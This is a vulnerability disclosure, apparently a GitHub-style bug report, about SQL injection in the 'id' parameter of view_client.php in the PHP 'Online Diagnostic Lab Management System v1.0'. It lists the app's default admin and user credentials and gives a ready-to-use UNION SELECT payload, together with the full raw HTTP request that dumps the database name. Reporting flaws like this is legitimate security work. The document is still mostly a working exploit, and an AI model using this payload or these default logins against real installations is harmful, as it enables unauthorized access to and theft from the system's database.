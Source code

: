 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Linwei

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/admin/clients/view_client.php?id=

Vulnerability location: /odlms/admin/clients/view_client.php?id=,id

dbname=odlms_db,length=8

[+] Payload: /odlms/admin/clients/view_client.php?id=-2%27%20union%20select%201,2,3,4,database(),6,7,8,9,10,11,12,13,14,15--+ // Leak place ---> id

```sql
GET /odlms/admin/clients/view_client.php?id=-2%27%20union%20select%201,2,3,4,database(),6,7,8,9,10,11,12,13,14,15--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191255809-f1edc4aa-366c-45fe-af56-e3ce7a01bb56.png)
